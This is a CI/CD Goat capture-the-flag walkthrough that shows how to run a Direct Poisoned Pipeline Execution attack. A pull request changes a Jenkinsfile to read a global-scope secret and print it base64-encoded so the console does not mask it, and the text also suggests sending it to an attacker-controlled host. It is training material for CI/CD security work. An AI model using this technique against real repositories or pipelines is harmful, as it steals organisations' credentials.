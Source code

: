 [![CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://img.shields.io/badge/CICD--SEC--4-Poisoned%20Pipeline%20Execution%20(PPE)-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-04-Poisoned-Pipeline-Execution)

Create a pull request and execute a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack against the _Wonderland/white-rabbit_ repository to steal the _flag1_ secret.

The flag is stored in the Jenkins credential store with the Global scope, which makes it accessible to any pipeline on the Jenkins instance.

1. Clone the _Wonderland/white-rabbit_ repository.
2. Checkout to a new branch.

    ```shell
    git checkout -b challenge1
    ```

3. Modify the Jenkinsfile to load _flag1_, and print it to the Jenkins build console output which you have access to (encode it so it won’t be masked), or send it to a host you control.

    ```groovy
    stage ('Install_Requirements') {
        steps {

            withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
                sh '''
                    echo $flag1 | base64
                '''                 
            }
        }
    }
    ```

4. Push the changes to the remote branch and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the encoded secret.
![white-rabbit](../images/white_rabbit.png "white-rabbit")